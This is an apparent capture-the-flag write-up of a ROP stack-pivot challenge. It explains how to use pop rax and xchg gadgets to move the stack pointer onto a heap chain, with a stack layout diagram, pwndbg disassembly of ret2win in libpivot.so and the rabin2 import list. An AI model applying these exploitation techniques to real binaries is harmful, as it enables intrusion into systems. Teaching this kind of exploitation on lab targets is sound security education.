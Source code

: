 A quick google of the `xchg` instruction shows that it is exchange. Basically it just swaps the values. Combine that with the pop rax gadget we have, and we can make the stack pointer whatever value we want. If you look through the output of the pivot binary, it actually prints off the location on the heap that we store our second chain in too. This means we just have to make the stack pointer that value.

An important note, that value changes every time the binary is run, so you can not just hard code it. You have to parse the binaries outputs to craft your payload.



```
         | stack          |
         | -------------- |
32 bytes | start buffer   |
8  bytes | base pointer   | 
8  bytes | pop rax gadget |
8  bytes | rax value      | # This must be calculated from the binaries print out
8  bytes | xchg gadget    | 
8  bytes | -------------- |

```

This will start executing our chain stored in the heap which we now have to craft.

So the idea is pretty simple, we just have to call the ret2win function. Trying to figure out where the ret2win function is shows that it is in the attached library.

```
pwndbg> disass ret2win
No symbol table is loaded.  Use the "file" command.
pwndbg> ls
core  exploit.py  flag.txt  libpivot.so  notes  payload  pivot  pivot.zip
pwndbg> file ./libpivot.so 
Reading symbols from ./libpivot.so...
(No debugging symbols found in ./libpivot.so)
Error in re-setting breakpoint 1: Function "main" not defined.
Error in re-setting breakpoint 2: No symbol table is loaded.  Use the "file" command.
pwndbg> disass ret2win
Dump of assembler code for function ret2win:
   0x0000000000000a81 <+0>:     push   rbp
   0x0000000000000a82 <+1>:     mov    rbp,rsp
   0x0000000000000a85 <+4>:     sub    rsp,0x40

```

So we have to figure out some way to get into the added library. To do this let's look at the functions that the pivot binary uses.

```
rabin2 -i ./pivot
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
1   0x004006d0 GLOBAL FUNC       free
2   0x004006e0 GLOBAL FUNC       puts
3   0x004006f0 GLOBAL FUNC       printf
4   0x00400700 GLOBAL FUNC       memset
5   0x00400710 GLOBAL FUNC       read
6   0x00000000 GLOBAL FUNC       __libc_start_main
7   0x00000000 WEAK   NOTYPE     __gmon_start__
8   0x00400720 GLOBAL FUNC       foothold_function
9   0x00400730 GLOBAL FUNC       malloc
10  0x00400740 GLOBAL FUNC       setvbuf
11  0x00400750 GLOBAL FUNC       exit
```
